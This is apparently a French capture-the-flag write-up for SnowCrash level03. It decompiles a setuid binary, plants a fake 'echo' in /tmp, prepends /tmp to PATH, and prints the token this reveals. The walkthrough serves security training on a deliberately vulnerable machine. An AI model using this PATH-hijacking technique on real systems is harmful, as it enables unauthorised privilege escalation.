

Le dossier contient un binaire : level03

```bash
scp -P 4242 level03@localhost:/home/user/level03/level03 .
```

En décompilant ce binaire avec l'outil Ghidra on aperçoit la fonction execve qui éxécute la commande **echo**.



On créer un binaire dans lequel on écrit la commande getflag :

```bash
echo '/bin/getflag' > /tmp/echo
chmod +x /tmp/echo
```

On modifie la variable d'environnement PATH pour que celle-ci utilise notre binaire **echo** plûtot que celui dans /bin

```bash
export PATH=/tmp:$PATH
```

On éxécute le binare pour obtenir le password du level04:

```bash
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```